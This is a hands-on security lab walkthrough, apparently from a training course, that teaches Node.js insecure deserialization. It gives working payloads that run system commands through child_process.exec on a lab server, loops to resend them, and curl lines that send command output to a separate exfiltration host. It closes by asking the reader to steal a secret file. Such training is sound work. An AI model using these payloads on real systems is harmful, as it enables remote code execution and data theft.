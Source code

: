 # Lab instructions (2/3)

## Insecure deserialiation

What happens if you add the opening and closing parentheses immediately after
the function definition?

```bash
curl --data '{"id":"_$$ND_FUNC$$_function(){return(\"result\")}()"}' -H "Content-Type: application/json" http://tmo/request
```

Congratulations! You've found the insecure deserialization vulnerability. Now
you're able to execute functions on the `target` server. This is an important
step.

However, the challenge is also about exfiltrating data. That's what the second
part of the lab will be about.

## Automating attacks

11. When performing security tests, often you need to tweak and tinker with
    payloads. Instead of having to use the command line to execute `curl` every
    time with different payloads, it make sense to use some automation here.

    First, let's put the payload into a separate file, and send the contents of
    the file as data.

```bash
echo '{"id":"_$$ND_FUNC$$_function(){return(\"result\")}()"}' > payload.json
```

Now modify the `curl` command so that it reads the contents of the file
containing the payload, and uses it as POST data. This can be done by using the
`@` character before the filename, as `--data` parameter.

```bash
curl --data "@payload.json"  -H "Content-Type: application/json" http://tmo/request
```

11. Second, let's automate the `curl` command so that it automatically executes,
    as soon as the file `payload.json` changes.

The tool `inotifywait` can check whether the contents of a file change. By using
an infinite loop, you can execute the `curl` command, each time that
`payload.json` changes.

```bash
while true; do inotifywait payload.json && \
curl --data "@payload.json"  -H "Content-Type: application/json" http://tmo/request; \
done
```

You can always exit the loop using Control-C. However, for the rest of the lab
session, let this infinite loop be active.

Open up another terminal window, and see what happens when you `touch` the file
`payload.json`. This should fire off an event, and execute the `curl` command
for you.

**Remark** Long lines can be separated using the backslash. This makes it easier
reading the command.

## Executing commands

12. You now have Remote Code Execution powers by exploiting the insecure
    deserialization exploit. Furthermore, you have automated sending payloads to
    the Globomantics server. Let's now try to execute **system commands** on the
    `tmo` server.

You can use the Node.js function `exec` from the library `child_process` to
execute processes. In the new terminal window, open up the `node` REPL, and try
out the following code to execute an `ls` command:

```js
proc = require("child_process");
proc.exec("ls /root");
```

This will execute the `ls /root` command - even though the results aren't
directly shown. Try for example to create a file, using `touch this_works`:

```js
proc = require("child_process");
proc.exec("touch this_works");
```

Exit the REPL using Control-D, and verify that the file `this_works` is created
using the `ls` command:

```bash
ls
```

So, you can execute system commands using the `exec` function from the
`child_process` library.

## Exfiltrating data

13. Often, during attacks, it is difficult to see the output of commands. That's
    when exfiltration servers come in handy: The output of commands can be sent
    to an external exfiltration server.

While the infinite loop is running, let's open up a text editor, and modify the
`payload.json`. A text editor that we can use is `mousepad`, but of course, any
plain text editor would do.

```bash
mousepad payload.json
```

**Remark** Of course any text editor will do: Mousepad is just a simple editor,
where you can save files using Control-S. Control-Q will quit the program.

Let's modify the payload in such a way, that the `tmo` server accesses the
`nest` server. This way, we can exfiltrate data.

Make sure that the initial terminal window, which shows the logs of the `nest`
server is visible. This way, you can see whether the server receives requests
from `tmo`.

Write a payload that performs the `exec` function and executes a GET request
using `curl`, to our exfiltration server `http://nest/`:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"curl http://nest/\")}()"}
```

Save the file using Control-S. Don't close the editor yet, as you will need to
modify the payload later on.

If everything went well, the `inotifywait` tool should have detected that
`payload.json` was modified, and should have sent the contents to the `tmo`
server. That means, that you can perform exfiltration, using the `curl` tool,
and by sending data to `http://nest`.

If the payload did not contain any syntax errors, then the `tmo` server should
performed a GET request to the `nest` server, and a request should be visible in
the `nest` log output.

Should you not see anything, then double-check whether the `inotifywait`
infinite loop is still running, and whether the payload doesn't contain any
syntax errors.

## Finalizing the mission

14. As an attacker, usually one of the first steps you perform when having
    access to a server, is performing reconnaissance. Let's create a directory
    listing of the root on `tmo`.

    In the editor, modify the payload so that it creates a directory listing,
    and sends the contents back to the exfiltration server:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls / > /tmp/output; curl --data '@/tmp/output' http://nest/\")}()"}
```

That isn't too easy to read, is it? Apparently the `--data` flag treats the data
as text, and will not preserve carriage returns or newlines.

Fortunately, we can use the flag `--data-binary` instead of `--data`, which
treats the data as-is. That way, the carriage returns and newlines are
preserved:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls / > /tmp/output; curl --data-binary '@/tmp/output' http://nest/\")}()"}
```

This should output the directory listing. Using this technique, you now can look
around on the server, and see whether there are any interesting files that we as
Dark Kittens want to steal from Globomantics.

Try to obtain the contents of the file `/root/secret.txt`.

See for the solution of the lab [Solution 2](Solution_2.md)

